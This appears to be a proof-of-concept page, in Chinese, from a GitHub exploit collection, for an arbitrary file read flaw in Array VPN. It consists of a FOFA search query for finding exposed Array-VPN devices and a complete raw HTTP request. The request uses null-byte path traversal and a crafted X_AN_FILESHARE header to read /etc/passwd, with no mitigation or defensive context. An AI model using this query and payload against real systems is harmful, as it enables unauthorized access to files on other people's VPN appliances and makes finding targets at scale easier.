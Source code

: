 ## Array VPN任意文件读取漏洞

## fofa
```
product="Array-VPN"
```


## poc
```
GET /prx/000/http/localhost/client_sec/%00../../../addfolder HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X_AN_FILESHARE: uname=t; password=t; sp_uname=t; flags=c3248;fshare_template=../../../../../../../../etc/passwd
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close

```
![image](https://github.com/wy876/POC/assets/139549762/a6915f3f-2242-4d1d-b3a3-9ff452439cbc)
